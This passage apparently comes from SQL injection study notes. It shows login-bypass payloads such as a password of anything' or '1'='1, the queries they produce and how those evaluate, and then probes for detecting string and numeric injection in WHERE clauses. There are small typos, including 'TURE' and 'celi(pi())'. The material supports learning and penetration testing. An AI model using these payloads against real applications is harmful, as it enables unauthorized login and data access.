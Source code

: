 ```
[+] scenario 3: bypass all special characters filtering
======================================================
- developer imposes a validation on the username field where it filters out all special characters such as single quote, double quote, equal and comment.
- password field is used by the underlying query
- try to login as offsec user

payload (username) = offsec
payload (password) = anything' or '1'='1

[+] query:
select * from users where username='offsec' and password='anything' or '1'='1' limit 0,1;
[+] expression evaluation:
(TURE and FALSE) or TRUE
FALSE or TRUE
TRUE


[+] login as the first user of the database users table
--------------------------------------------------------
payload (username) = anything => not delivering any SQLi payload in the username field
payload (password) = anything' or '1'='1

[+] query:
select * from users where username='offsec' and password='anything' or '1'='1' limit 0,1;
[+] expression evaluation:
(FALSE and FALSE) or TRUE
FALSE or TRUE
TRUE
```

## `WHERE`, `GROUP BY`, `HAVING` clause in `SELECT`

### Normal Detection

> * **`In-band`** detection: In this case, same channel is used to inject the sql code and result of exploitation is directly included in response from the web application.
> * **`Error-based`**: application throws
>   * `500` status code with Internal Server Error
>   * Verbose SQL error with underlying database query

```
[data type = VARCHAR]
=====================
job_code = admin => valid input
job_code = admin' => SQL error / reveals the info on the underlying database
job_code = admin'' 	=> SQL error disappears, confirms the possibility of STRING based SQLi

[=] confirm the vulerability by generating the same or valid string
- update here, hacker's handbook, waptx slide


[data type = NUMBER]
====================
job_id = 2	=> valid input
job_id = 2'	=> SQL error, reveals the info on the underlying database
job_id = 2'' => same SQL error

[=] confirm the vulerability by generating the same or valid number
job_id = 5-3	=> through arithmetic operations
job_id = 1+1	=> urlencode() `+` for GET method
job_id = celi(pi())		=> through build-in function
job_id = floor(version())
```